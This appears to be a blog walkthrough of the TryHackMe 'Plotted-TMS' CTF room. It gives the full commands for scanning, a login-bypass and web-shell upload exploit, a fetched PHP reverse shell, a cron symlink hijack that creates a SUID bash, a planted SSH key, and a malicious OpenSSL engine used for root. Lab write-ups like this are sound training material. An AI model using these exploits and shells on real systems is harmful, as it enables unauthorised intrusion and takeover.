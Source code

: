 ```yaml
---

title: Walkthrough - Plotted-TMS
published: true
---
```


Tags: Security, Linux, RCE, PrivEsc, Linking
Description: Everything here is plotted!
Difficulty: Easy
URL: [https://tryhackme.com/room/plottedtms](https://tryhackme.com/room/plottedtms)

* * *

## Notes

- `sudo nmap -Pn -sS -T4 -p- 10.10.154.213 -vvv`
- `sudo nmap -sC -sV -sT -O -p22,80,445 10.10.154.213`

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- `gobuster dir -u http://10.10.154.213 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html -t 100 --no-error`

Port 80 contains a few different folders

```
/admin                (Status: 301) [Size: 314] [--> http://10.10.154.213/admin/]
/shadow               (Status: 200) [Size: 25]                                   
/passwd               (Status: 200) [Size: 25]   
```

- `/passwd` and `/shadow` contain a base64 message `bm90IHRoaXMgZWFzeSA6RA==` 

```
┌──(0xskar㉿cocokali)-[~]
└─$ echo "bm90IHRoaXMgZWFzeSA6RA==" | base64 -d                  
not this easy :D  
```

- `/admin` contains an `id_rsa` file - `Trust me it is not this easy..now get back to enumeration :D`

Dead end port 80. onto port 445:

- `gobuster dir -u http://10.10.102.139:445/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html -t 100 --no-error`

Port 445 has a `/management` directory with an admin portal `/management/admin/login.php`.

Checking out the [source](https://www.sourcecodester.com/php/14909/online-traffic-offense-management-system-php-free-source-code.html) of this management system the default credentials `admin:admin123` 

Capturing the request in burpsuite we can see that SQLi is possible, and there are also few exploits in exploitdb we can use. 

- `python2 50221.py`
- `http://10.10.137.125:445/management/`

Running the script and trying gets us connected but doesnt ewrurn us anything and we can see some errors when we try to run commands.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/plotted-tms]
└─$ python2 50221.py

Example: http://example.com

Url: http://10.10.137.125:445/management/
Check Url ...

[+] Bypass Login

[+] Upload Shell

[+] Exploit Done!

$ id
Traceback (most recent call last):
  File "50221.py", line 107, in <module>
    request = requests.post(find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 119, in post
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 61, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 516, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 459, in prepare_request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/models.py", line 314, in prepare
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/models.py", line 388, in prepare_url
requests.exceptions.MissingSchema: Invalid URL '/management/uploads/1660858140_evil.php?cmd=id': No schema supplied. Perhaps you meant http:///management/uploads/1660858140_evil.php?cmd=id?
```

modifying the exploit lets us properly run it. adding the direct url to the request

```
        while True:
            cmd = raw_input("$ ")
            headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36'}
            request = requests.post("http://10.10.137.125:445"+find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
            print request.text.replace("<pre>" ,"").replace("</pre>", "")
            time.sleep(1)
```

we can now get a reverse shell by using nc 

- start up pwncat listenr `pwncat-cs -lp 6666`
- the nc mkfifo diesnt seem to work so i wget over a php reverse shell pentestmoney.
- access it at http://10.10.137.125:445/management/uploads/php-reverse-shell.php and recieve the rev shell

* * * 

## What is the content of user.txt?

- `cat /etc/crontab`

plot_admin is running a script 

```
(remote) www-data@plotted:/$ cat /var/www/scripts/backup.sh 
#!/bin/bash

/usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup
/bin/chmod -R 770 /home/plot_admin/tms_backup/management
```

1. create a script that copies bash to a shell than changes the files mode bits so it can be executed `echo "cp /bin/bash /home/plot_admin/pa_shell; chmod +xs /home/plot_admin/pa_shell" > script.sh`
2. change mode bits of script so it can be executed `chmod +x script.sh`
3. make a symbolic force link between the created script.sh with the bash and the plot_admins backup.sh `ln -sf script.sh backup.sh`
4. run the shell to get escalate to plot_admin `/home/plot_admin/pa_shell -p`

![0xskar](/assets/plotted-tms01.png)

add our ssh key to the user dir so we can ssh in as the user.

1. `mkdir .ssh && chmod 0700 .ssh`
2. on attacker ssh-keygen new key
3. `echo "sshkey" > .ssh/authorized_keys` && `chmod 0600`
4. ssh in

* * * 

## What is the content of root.txt?

```
╔══════════╣ Checking doas.conf
permit nopass plot_admin as root cmd openssl 
```

since we can run openssl as root create lets creat an exploit to take advantage

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

![0xskar](/assets/plotted-tms02.png)

* * * 

